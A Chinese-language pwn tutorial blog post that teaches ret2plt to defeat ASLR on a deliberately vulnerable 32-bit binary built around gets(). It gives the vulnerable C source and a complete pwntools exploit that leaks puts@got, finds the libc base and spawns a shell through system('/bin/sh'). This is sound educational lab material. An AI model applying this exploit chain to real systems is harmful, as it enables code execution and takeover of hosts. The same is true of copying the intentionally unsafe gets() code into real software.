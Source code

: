 ```yaml
---
title: 'ret2plt 绕过 ASLR'
date: '2023-08-23'
lastmod: '2023-08-23'
tags: ['PWN', 'Stack']
draft: false
summary: '绕过 ASLR'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

## 0x01 概述

这次没有可以直接利用的信息了，你必须使用前面讲到的 ret2plt 技术。在进一步了解之前，请先自己尝试一下。

<Download name="ret2plt.zip" href="/static/assets/ret2plt.zip" type="Binary" />

```c:source.c showLineNumbers
#include <stdio.h>

void vuln() {
  puts("Come get me");

  char buffer[20];
  gets(buffer);
}

int main() {
  vuln();

  return 0;
}
```

## 0x02 分析

我们需要以某种手段泄漏 ASLR 基地址。在这题中，唯一可行的方法是 ret2plt。`gets()` 可以读取任意大小的数据，所以不用担心栈空间不足的问题。我们可以充分利用 `gets()` 构造 ret2plt 的 exploit 链。通过返回到 PLT 表，可以泄漏需要的地址信息。

因此，在栈空间充足的情况下，使用 ret2plt 是最合适的手段。

## 0x03 利用

基本信息：

```python showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()
```

现在我们要构造一个可以泄漏 `puts` 真实地址的 payload。根据之前讲到的，调用函数的 PLT 条目等同于调用函数本身。传入 `puts@got` 作为参数，会打印出 `puts` 在 `libc` 中的实际地址，因为 C 语言传递字符串参数传递的是指针。我们知道 `puts@got` 就是一个已知地址，可以打印。这样就可以通过 `puts@plt` 间接获取 `puts@got` 中的内容。

```python showLineNumbers
p.recvline()  # 只接收第一个输出

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)
```

调用 `main` 的目的是让程序可以重新运行。如果我们直接返回到一个随机的地址，会让程序崩溃。再次调用 `main` 本质上是重启了程序，这样可以使程序在泄漏 `libc` 的基地址后继续运行。然后我们就可以进行 ret2libc 攻击。

```python showLineNumbers
p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)
```

这里需要注意 `puts` 会一直输出，直到遇到空字节，所以它不只是泄漏了 GOT 表中的地址。但我们只关心第一个，也就是 GOT 表里面的前 4 个字节。使用 `u32` 转换为地址。之后，忽略调用 `main` 时产生的其它内容。我们只取关键信息，过滤无用数据。

从这里开始，我们只需要计算出 `libc` 的基地址并执行基本的 ret2libc：

```python showLineNumbers
libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],  # 虽然这里不需要退出，但这样做更好
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

### 1x01 最终 Exploit

```python:exp.py showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()

p.recvline()  # 只接收第一个输出

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],  # 虽然这里不需要退出，但这样做会更好
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

## 0x04 64-bit

你知道该怎么做 :) 在 64-bit 上尝试同样的操作。如果需要，你可以使用 pwntools 的 ROP 功能；或者，为了确保你理解调用约定，请大胆地同时执行这两个操作 :P

<Download name="ret2plt-64.zip" href="/static/assets/ret2plt-64.zip" type="Binary" />

